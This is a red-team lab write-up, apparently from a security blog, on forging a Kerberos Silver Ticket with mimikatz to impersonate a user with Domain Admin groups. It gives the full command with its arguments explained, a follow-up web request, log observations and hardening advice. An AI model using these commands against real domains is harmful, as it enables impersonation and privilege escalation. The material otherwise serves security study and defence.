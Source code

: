 ```yaml
---
layout: post
title: "2024-06-18-kerberos silver tickets"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberos-silver-tickets/
---
```


---
description: Credential Access
---

# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.&#x20;

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument                                            | Notes                                                                                             |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user`                  |
| /target:dc-mantvydas.offense.local                  | server hosting the attacked service for which the TGS ticket was cracked                          |
| /service:http                                       | service type being attacked                                                                       |
| /rc4:a87f3a337d73085c45f9416be5787d86               | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case               |
| /user:beningnadmin                                  | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155                                            | Forging user's RID - fun                                                                          |
| /ptt                                                | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately            |

Getting our user's SID as explained in the first step in the above table:

![Getting a user's SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged (silver) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](<../../.gitbook/assets/silver-tickets-generated-ticket (2).png>)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name                  |
| --- | --------------------------- |
| 512 | Domain Admins               |
| 513 | Domain Users                |
| 518 | Schema Admins               |
| 519 | Enterprise Admins           |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](<../../.gitbook/assets/silver-tickets-4624 (1) (1).png>)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782\(v=ws.11\)) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}
@spotheplanet
